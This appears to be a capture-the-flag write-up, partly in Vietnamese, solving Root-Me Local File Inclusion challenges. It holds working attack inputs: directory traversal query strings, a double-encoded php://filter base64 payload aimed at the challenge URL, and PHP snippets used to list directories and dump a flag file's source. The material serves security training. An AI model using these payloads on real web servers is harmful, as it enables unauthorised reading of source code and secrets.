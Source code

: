### Local File Inclusion
![image](https://user-images.githubusercontent.com/77602549/164174516-0f929bb8-5a10-4fdc-8b86-d54a5687dc73.png)


![image](https://user-images.githubusercontent.com/77602549/164175580-fb16a8e5-ccde-49c6-9efc-9dddf4473bd8.png)

Vậy thư mục admin nằm ngay trong thư mục root.
Ta phải lấy được source code của file index.php

Chúng ta thử dần các payload sau:
  
  + ?files=sysadm&f=/admin/index.php cái này khỏi thử, không có chuyện admin nằm trong đây đâu
  + ?files=sysadm&f=../index.php cái này khỏi thử, nếu admin nằm ngoài đây thì sysadm sẽ thành web-serveur/ch16/admin/sysadm/ rồi, nhưng cũng đáng thử, để biết chall có chặn .. không
  + ?files=sysadm&f=../admin/index.php lỗi file_get_contents(): Filename cannot be empty
  + ?files=sysadm&f=../../admin/index.php di chuyển ra thêm một thư mục nữa -BOOM- ta được source code của file index

![image](https://user-images.githubusercontent.com/77602549/164176305-bc555b84-c24b-4c7d-8c1d-e216cb9ed005.png)





## Local File Inclusion - Double encoding

![image](https://user-images.githubusercontent.com/77602549/164176760-d250d227-f597-4e7c-912a-d9c945de213f.png)


We will use php://filter with base64 encoding

php://filter/convert.base64-encode/resource=cv

after double encoding

php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dcv




http://challenge01.root-me.org/web-serveur/ch45/index.php?page=php%253A%252F%252Ffilter%252Fconvert%252Ebase64%252Dencode%252Fresource%253Dconf


![image](https://user-images.githubusercontent.com/77602549/164178518-8fb1d70b-6565-4528-8787-7cbd74f7fb66.png)



## Local File Inclusion - Wrappers

![image](https://user-images.githubusercontent.com/77602549/164179748-a96d3d97-6d31-40f9-af6c-74999959a7ec.png)


![image](https://user-images.githubusercontent.com/77602549/164187956-623d7d22-ac08-4ac2-900a-33fab04896fe.png)



<?php $data = file_get_contents(“index.php”); echo $data; ?>


https://vietjack.com/php/ham_scandir_trong_php.jsp



![image](https://user-images.githubusercontent.com/77602549/164188168-fa5d727f-740a-4cab-81c6-33df0d0a3d09.png)



name too long
![image](https://user-images.githubusercontent.com/77602549/164188972-82a3d7f6-414d-42d3-b66a-591f08f132bc.png)

```
<?php 
   $path = getcwd();
   $items = scandir($path);
   
   echo "<p>Content of $path</p>";
   echo '<ul>';
   foreach ($items as $item) {
       echo '<li>' . $item . '</li>';
   }
   echo '</ul>';  
?>

```

![image](https://user-images.githubusercontent.com/77602549/164195162-1aafd712-1969-40f5-9b04-0de766c9ccaf.png)



![image](https://user-images.githubusercontent.com/77602549/164193342-b6c70f3b-fbed-44e0-9f25-295b4e399444.png)


```
<?php
   show_source('flag-mipkBswUppqwXlq9ZydO.php'); 
?>
```







